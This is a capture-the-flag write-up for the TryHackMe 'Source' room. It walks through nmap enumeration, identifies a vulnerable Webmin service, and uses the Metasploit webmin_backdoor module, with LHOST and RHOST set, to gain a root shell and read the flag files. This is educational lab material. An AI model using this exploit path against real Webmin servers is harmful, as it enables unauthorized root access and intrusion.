


# Source CTF [TryHackMe](https://tryhackme.com/room/source)

---


---

## Index
- [Enumeration](#enumeration)
- [Finding vunerabilities](#finding-vunerabilities)
- [Exploit with msfconsole](#exploitation)
- [Final Thoughts](#final-thoughts)
---

```bash
$ export IP=10.10.38.224
```

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports
```
22 ssh
10000 http
```

---

### Finding vunerabilities

Navigating to `https://$IP:10000` (note the https) we notice it is a webmin site. And using `searchsploit` reveals that it has multiple vunerabilities.



I didn't know what version it was and therefore I went from the largest and worked down.

I first try a shell script I find online enabling me to do rce; which is unsuccessful.
I then tried another rce script written in another language; a failure.

At this point I decided I had better luck if I did some basic research about this box so I searched `webmin exploits` (Creative, I know) and found [this](https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_backdoor/) interesting article about a backdoor that affects versions 1.89 through till 1.92.

---

### Exploitation

Now this was using a metasploit package `exploit/unix/webapp/webmin_backdoor` which has been depreciated/replace by `exploit/linux/http/webmin_backdoor` which I used instead.

Then it was as simple as:

```bash
set LHOST $MY_IP
set RHOST $IP
set SSL true
exploit
```

And now we have a shell which root access! I didn't get a nice terminal though and I could have created a proper reverse shell but instead I did

```bash
cat /root/root.txt
ls /home
cat /home/dark/user.txt
```

And viola! We have the flags.

---

### Final Thoughts

Super easy room and that has a bit extra focus on researching outside of the usual scope of these rooms.

---


